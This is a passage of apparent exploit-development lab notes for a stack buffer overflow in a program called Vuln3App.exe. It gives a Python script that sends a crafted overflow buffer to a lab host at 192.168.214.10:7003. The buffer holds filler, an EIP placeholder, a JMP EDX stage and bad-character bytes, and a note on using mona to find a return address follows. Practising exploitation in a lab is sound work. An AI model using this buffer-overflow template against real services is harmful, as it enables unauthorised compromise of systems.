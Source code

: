 ```python
badchars = "\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
badchars = "\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4"
badchars = "\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2"
badchars = "\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars = "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee"
badchars = "\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc"
badchars = "\xfd\xfe\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "Y" * 4
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(filler) - len(eip) - len(first_stage))
  inputBuffer = filler + eip + first_stage + badchars

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

## Find a return address
When running `!mona modules` we see that Vuln3App.exe is the only module running with security features disabled.
![8b35806b1bd4580d358b8af5a1fd8f12.png](../../../../_resources/c5ad0596fbf54927b0798e834412b1af.png)
